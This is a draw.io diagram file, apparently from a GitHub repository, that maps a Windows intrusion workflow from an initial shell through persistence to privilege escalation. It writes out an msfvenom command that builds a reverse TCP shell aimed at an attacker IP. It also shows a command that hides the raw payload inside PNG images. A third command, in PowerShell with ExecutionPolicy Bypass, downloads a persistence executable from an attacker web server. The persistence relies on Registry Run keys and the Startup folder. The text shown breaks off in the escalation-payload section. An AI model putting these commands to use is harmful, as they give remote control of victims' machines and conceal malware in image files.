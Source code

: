 <mxfile version="20.7.4" type="github">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Overall">
    <mxGraphModel dx="2774" dy="457" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="G-sO2mh2Iyi2BEA4O4LV-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="30" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-4" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="WIyWlLk6GJQsqaUBKTNV-10" edge="1">
          <mxGeometry y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="G-sO2mh2Iyi2BEA4O4LV-17" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="370" y="120" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="135" y="170" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-8" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="c0Sctn81WB5nrNk0CtNy-44" edge="1">
          <mxGeometry x="0.333" y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-10" value="Escalate Privileges&lt;br&gt;to High IL" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="340" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-11" value="" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="170" y="1110" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-14" target="WIyWlLk6GJQsqaUBKTNV-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-14" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="90" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-17" target="P6aCfQ930mBBJoiv-hOj-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-17" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="30" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-19" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="20" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-21" value="Medium IL Tools Directory&#xa;(9001.exe / 9002.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-19" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-23" value="9001.cpp&#xa;9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-25" value="Medium IL Tools Directory&#xa;(9001.png / 9002.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-23" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-30" value="9001.raw&#xa;9002.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-31" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-32" value="Port (9001 / 9002)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-37" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-57" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-49" target="P6aCfQ930mBBJoiv-hOj-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-49" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="460" width="690" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-39" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-51" value="9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-52" value="9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-53" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-54" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-9" target="G-sO2mh2Iyi2BEA4O4LV-49" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-9" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="230" width="880" height="180" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-12" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-13" value="Pers_Medium.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-14" value="9001.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-15" value="9002.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-35" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-38" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-24" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="618" width="910" height="272" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-5" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-7" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_Medium.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-0" value="Execute Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="G-sO2mh2Iyi2BEA4O4LV-5" target="P7n5YuG6-lRFGP6FSJ7v-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-0" value="Execute 9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="470" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-0" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-1" value="Execute 9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-5" value="Read Payload From 9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-0" target="P6aCfQ930mBBJoiv-hOj-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-6" value="Read Payload From 9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="202" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-8" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-1" target="P6aCfQ930mBBJoiv-hOj-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-26" value="Registry&lt;br&gt;Run Key" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="60" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-27" value="Startup&lt;br&gt;Folder" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="162" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-0" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-30" target="P6aCfQ930mBBJoiv-hOj-47">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-30" value="Update EOP Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="40" width="1300" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-33" value="DEVOBJ.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-34" value="Medium IL Tools Directory&#xa;(Reverse_9101.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-33" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-35" value="9101.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="550" y="40" width="140" height="90" as="geometry" />
        </mxCell>
